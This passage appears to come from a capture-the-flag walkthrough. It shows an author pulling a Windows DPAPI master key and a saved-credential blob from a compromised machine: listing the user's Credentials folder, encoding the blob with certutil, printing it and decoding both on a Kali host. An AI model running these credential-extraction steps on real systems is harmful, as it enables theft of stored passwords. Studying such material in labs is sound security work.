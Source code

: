 I’ll paste that base64 text into a file on my machine, and decode it:

```

root@kali# cat masterkey.b64 | base64 -d > masterkey

```

I’ll do the same thing for the credentials file:

```

C:\Users\security\AppData\Roaming\Microsoft\Credentials>dir /a
 Volume in drive C has no label.
 Volume Serial Number is 9C45-DBF0

 Directory of C:\Users\security\AppData\Roaming\Microsoft\Credentials

08/22/2018  09:18 PM    <DIR>          .
08/22/2018  09:18 PM    <DIR>          ..
08/22/2018  09:18 PM               538 51AB168BE4BDB3A603DADE4F8CA81290
               1 File(s)            538 bytes
               2 Dir(s)  16,764,465,152 bytes free

C:\Users\security\AppData\Roaming\Microsoft\Credentials>certutil -encode 51AB168BE4BDB3A603DADE4F8CA81290 output
Input Length = 538
Output Length = 800
CertUtil: -encode command completed successfully.

C:\Users\security\AppData\Roaming\Microsoft\Credentials>type output
-----BEGIN CERTIFICATE-----
AQAAAA4CAAAAAAAAAQAAANCMnd8BFdERjHoAwE/Cl+sBAAAALsOSB6VI40+LQ9k9
ZFkFgAAAACA6AAAARQBuAHQAZQByAHAAcgBpAHMAZQAgAEMAcgBlAGQAZQBuAHQA
aQBhAGwAIABEAGEAdABhAA0ACgAAABBmAAAAAQAAIAAAAPW7usJAvZDZr308LPt/
MB8fEjrJTQejzAEgOBNfpaa8AAAAAA6AAAAAAgAAIAAAAPlkLTI/rjZqT3KT0C8m
5Ecq3DKwC6xqBhkURY2t/T5SAAEAAOc1Qv9x0IUp+dpf+I7c1b5E0RycAsRf39nu
WlMWKMsPno3CIetbTYOoV6/xNHMTHJJ1JyF/4XfgjWOmPrXOU0FXazMzKAbgYjY+
WHhvt1Uaqi4GdrjjlX9Dzx8Rou0UnEMRBOX5PyA2SRbfJaAWjt4jeIvZ1xGSzbZh
xcVobtJWyGkQV/5v4qKxdlugl57pFAwBAhDuqBrACDD3TDWhlqwfRr1p16hsqC2h
X5u88cQMu+QdWNSokkr96X4qmabp8zopfvJQhAHCKaRRuRHpRpuhfXEojcbDfuJs
ZezIrM1LWzwMLM/K5rCnY4Sg4nxO23oOzs4q/ZiJJSME21dnu8NAAAAAY/zBU7zW
C+/QdKUJjqDlUviAlWLFU5hbqocgqCjmHgW9XRy4IAcRVRoQDtO4U1mLOHW6kLaJ
vEgzQvv2cbicmQ==
-----END CERTIFICATE-----

C:\Users\security\AppData\Roaming\Microsoft\Credentials>del output

```

```

root@kali# cat credentials.b64 | base64 -d > credentials

```
